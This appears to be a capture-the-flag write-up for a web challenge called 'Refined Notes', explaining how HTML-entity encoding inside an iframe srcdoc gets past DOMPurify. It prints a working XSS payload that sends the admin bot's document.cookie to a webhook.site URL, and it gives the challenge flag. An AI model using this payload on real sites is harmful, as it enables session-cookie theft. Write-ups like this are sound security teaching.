


# Refined Notes

> <p>All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.</p>

## Path to Flag

We are given 2 web pages, which are the note input page and the admin bot to receive UUID from users.
I tried the note taking page, and found out that the inputted strings inside `srcdoc` attribute of iframe.



I tried XSS, steal the cookie, and send it through webhook, since the expected response is an error.
```

```

But since the input is inside srcdoc of iframe, we need to encode the payload with HTML Entity to escape the DOMPurify.
```
&lt;img src=x:x onerror=location.replace(&apos;https://webhook.site/215acd8e-56c7-4af9-b02b-2e99b61654b0/?x=&apos;+document.cookie)&gt;
```



`GPNCTF{3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l}`